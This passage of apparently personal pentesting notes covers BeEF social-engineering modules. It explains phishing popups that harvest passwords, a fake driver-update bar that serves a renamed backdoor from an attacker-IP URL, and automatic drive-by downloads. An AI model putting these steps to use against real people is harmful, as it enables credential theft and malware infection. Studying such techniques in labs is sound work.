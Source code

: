 ![](img/google-phishing.png)

We can also use the module Pretty Theft to try and gain passwords for various websites. It's located in the same place as the Google Phishing command. This will bring up a pop up box, not the full web-page.

If you have sniffing running on bettercap and you have cloned a website with SET, you can always sniff the password as well because it won't be secure. 

Fake Notification Bar (located in Social Engineering) - Attempt to get the target to install  a backdoor into their system.  

Modify the command:
```sh
http://<attacker-ip>/<path-to-file>
```
- You'd rename the back-door to something like `audio_driver.exe`
- I need to check this, but the default IP might be what is used here, not the attacker IP
- You could then re-write the message to say something like "Your Audio Driver Needs Updating, Please Install"
- You may need to remove the port in the default settings
- I think you'd need to have apache2 serving the file for this to work.

Another command to get something on the victims computer is `Lcamtuf Download`
- Add the malicious file path.
- This will automatically download the file without any user input.

Another way is using `Fake Flash Update`

As you can see there is a lot of things that can be done with just a few tools.

